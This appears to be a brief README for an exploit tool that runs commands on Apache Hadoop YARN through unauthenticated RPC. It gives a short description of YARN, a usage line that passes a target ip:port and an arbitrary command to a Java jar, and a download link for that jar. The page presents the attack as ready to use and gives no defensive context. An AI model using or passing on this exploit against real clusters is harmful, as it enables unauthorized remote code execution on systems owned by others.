 Apache Hadoop YARN (Yet Another Resource Negotiator) is a new Hadoop resource manager. It is a general resource management system that can provide unified resource management and scheduling for upper-level applications. Management and data sharing have brought huge benefits.


```
Exploit:


java -jar YarnRpcUnauth.jar ip:port cmd
```

YarnRpcUnauth.jar: https://github.com/cckuailong/YarnRpcRCE/releases/download/0.0.1/YarnRpcUnauth.jar
